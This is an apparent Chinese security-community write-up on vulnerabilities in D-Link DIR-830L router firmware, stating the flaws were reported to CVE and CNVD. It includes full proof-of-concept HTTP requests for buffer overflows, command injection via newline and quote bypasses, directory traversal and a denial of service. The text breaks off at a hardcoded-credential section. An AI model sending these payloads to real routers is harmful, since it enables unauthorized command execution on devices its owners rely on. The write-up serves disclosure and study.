# [IoT]D-LINK DIR-830L路由器漏洞挖掘汇总-先知社区

> **来源**: https://xz.aliyun.com/news/16711  
> **文章ID**: 16711

---

本文详细记录了对D-LINK DIR830L型号的路由器进行漏洞复现与漏洞挖掘的过程。除了已有公开的漏洞以外，还挖掘了更多新的漏洞。

D-LINK路由器漏洞是我学习IoT安全时接触的第一个vendor的路由器。在根据网上公开资料进行复现时，自己也挖掘出更多的新的漏洞，特此记录一下漏洞挖掘过程，供更多的人学习，交流。

本文提到的所有漏洞均已报送CVE，CNVD，请勿用于非法用途！

# 1. 厂商简介

友讯科技股份有限公司成立于1986年，专注于电脑网路设备的设计开发，并自创「**D-Link**」品牌，行销全球。 目前已在全世界70余国设立超过160个行销据点，产品销售遍布全球170多个主要市场，全球品牌营收超过10亿美金，为全球前三大专业网路公司。 友讯科技的主要产品为交换器、无线、宽频及数位家庭等网路产品，在全球中小企业及家庭网路市场，为领导网通品牌。

在D-Link DIR-830L A1路由器中存在多处漏洞，包括命令注入，缓冲区溢出，凭据硬编码，目录遍历等漏洞。

# 2. 固件信息/仿真环境

## 固件信息

固件版本：DIR830LA1\_FW100B07

固件下载地址：[legacyfiles.us.dlink.com - /DIR-830L/REVA/FIRMWARE/](https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/)

固件是否加密：否

固件提取方式：binwalk -Me

## 仿真环境

用 FirmAE即可进行仿真。

<https://github.com/pr0v3rbs/FirmAE>

# 3. 漏洞详细分析

核心二进制文件是 sbin/ncc2这个二进制文件。

然后web和bin之间的桥梁就是 callback\_xxx这种类型的函数。

## 1. `cancelPing` Buffer Overflow

830L和820L一样的，都有这个地方的栈溢出，参考

```
https://github.com/1759134370/iot/blob/main/D-LINK/DIR-820L.md
```

找到漏洞点：  


回溯找到调用点：  


本质还是从`callback_ccp_ping`传过来的：  


这个请求触发也得根据这个格式来，  
`ccp_act=cancelPing&nextPage=xxxx`

注意到`char v10[260]`，由于我们只是PoC，不必构造Exploit，不需要考虑那么多栈布局，直接发超长包就行了。

触发PoC：  
注意：

1. 得带上登录的cookie（空密码）
2. 发两遍

```
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Connection: close

Referer: http://192.168.0.1/Home.html

Cookie: uid=DdK2d6Kq3d

If-Modified-Since: Mon, 18 Aug 2014 09:26:05 GMT

Content-Length: 28


ccp_act=cancelPing&nextPage=xxxx...（这里省略若干）
```



  
  


## 2. `ping_v4` Command Injection

也是在`callback_ccp_ping`处回调的：  


`ping_addr`参数是用户前端输入的：  


最终会在这里拼接到`_system`的参数中调用，由于过滤不全，导致了命令注入漏洞：  


前面过滤了

* ;

我们可以用`%0a`换行符绕过

PoC:

```
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=SN5icKpv49

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 58


ccp_act=ping_v4&&ping_addr=127.0.0.1%0als />/www/poc1.html
```





这么看的话，`ping_v6`也应该有一样的洞

## 3. `ping_v6` Command Injection

跟 `ping_v4`一样的原理，这里直接给出分析结果和PoC了。





PoC:

```
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=GLW7nuM5Vi

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 62


ccp_act=ping_v6&&ping_addr=127.0.0.1%0abusybox >/www/poc2.html
```





## 4. `sub_450E7C` Buffer Overflow

在ncc2 `callback_ccp_get_set`中调用了`sub_450E7C`：



`sub_450E7C`函数，



调用了危险函数`sprintf`，且参数都是用户从前端输入的，全部可控。

按照路由规则，我们访问`get_set.ccp`

```
POST /get_set.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=32sLwqx3Oz

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 24280


ccp_act=setStorage&old_ip=BufferOverflow!!!aaa...(省略一大堆a)&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=back.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=dlinkrouter&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1656465291297=1656465291297
```


## 5. `web_access.ccp` Directory Traversal

在`ncc2`二进制文件的`callback_ccp_web_access`函数中，

当`ccp_act=setfolder`时，会调用`sub_4B188C`函数：





尽管后面对传入的参数`folder`和`path`有过滤，但是没有过滤`.`和`/`，导致了路径穿越漏洞，攻击者可以在任意可写路径下创建文件夹。

这里以在网站根目录`/www`创建poc4.html为例。

```
POST /web_access.ccp

ccp_act=setfolder&tok=ip_addr=&folder=poc4.html&path=../../../www
```

（这里传不了gif，就不放演示效果图了）

## 6. `mydlink_api.ccp` Denial of Service

```
POST /mydlink_api.ccp
```

不传任何payload，就会使网页崩溃。

（这里传不了gif，就不放演示效果图了）

## 7. `mydlink_api.ccp` Command Injection

在`callback_ccp_mydlink_api`中：



参数`api_page`来自用户输入，可控。

程序对v6没有做任何校验就拼接到了`_system`的调用中，导致了命令注入漏洞。

PoC：

```
POST /mydlink_api.ccp

api_page=;";busybox >/www/poc5.html;%0a"";
```



然后访问`/poc5.html`：



## 8. `do_login` Hardcoded Credential

在 sbin/ncc2的`do_login`函数中，存在凭据硬编码漏洞：

